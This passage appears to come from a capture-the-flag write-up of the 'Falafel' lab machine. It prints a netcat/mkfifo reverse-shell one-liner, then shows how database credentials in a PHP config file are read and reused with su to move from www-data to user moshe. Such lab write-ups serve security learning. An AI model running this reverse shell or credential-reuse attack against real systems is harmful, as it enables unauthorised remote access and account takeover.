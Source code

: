 ### Webshell –> Shell

I was able to get an interactive shell on Falafel using the nc / pipe backdoor, `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f`. As I like to script these things, I write a python script to generate a callback, which is included at the end of this post.

## privesc: www-data -> moshe

There are two users with home directories on the box:

```

www-data@falafel:/var/www/html$ ls /home
moshe  yossi

```

In the site php files, there’s creds for the database.

```

www-data@falafel:/var/www/html$ cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>

```

It happens that the password is also moshe’s:

```

www-data@falafel:/var/www/html$ su moshe
Password:
moshe@falafel:/var/www/html$

```

And user.txt is in moshe’s home dir:

```

moshe@falafel:~$ wc -c user.txt
33 user.txt
moshe@falafel:~$ cat user.txt
c866575e...

```
